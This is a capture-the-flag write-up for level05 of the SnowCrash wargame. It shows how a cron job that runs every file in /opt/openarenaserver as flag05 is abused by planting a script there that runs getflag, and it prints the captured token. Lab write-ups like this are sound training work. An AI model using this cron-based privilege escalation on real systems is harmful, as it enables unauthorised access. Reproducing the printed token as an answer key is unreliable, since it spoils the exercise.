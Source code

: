 # Step 1
-   We log to the VM with ssh as `level05` user.

    ```bash
    ssh level05@10.27.26.127 -p 4242
    ```

    `You have new mail.`

    `level05@SnowCrash:~$`

-   We explore the path to locate email and we find the `$MAIL` variable in the env.

    `MAIL=/var/mail/level05`

    content of the file above

    `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

-   This is a cron job that runs every 2 minutes and executes the `openarenaserver` script as `flag05` user.

    We add this job to our crontab

    ```bash
    crontab -e
    ```


# Step 2

We analyze the `/usr/sbin/openarenaserver` script.

content of the script: 
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

It loops through all files in `/opt/openarenaserver/` and executes them with a 5 seconds timeout. So we can create a file in this directory and it will be executed.

# Step 3

We create a script in `/opt/openarenaserver/` that will run the `getflag` command and write the output to a file in `/tmp/`.

```bash
echo '#!/bin/sh' > /opt/openarenaserver/flag.sh
echo "getflag > /tmp/flag" >> /opt/openarenaserver/flag.sh
chmod +x /opt/openarenaserver/flag.sh
```

### Result
    
```bash
level05@SnowCrash:~$ cat /tmp/flag
```

`Check flag.Here is your token : viuaaale9huek52boumoomioc`

No password needed for `flag05` user.
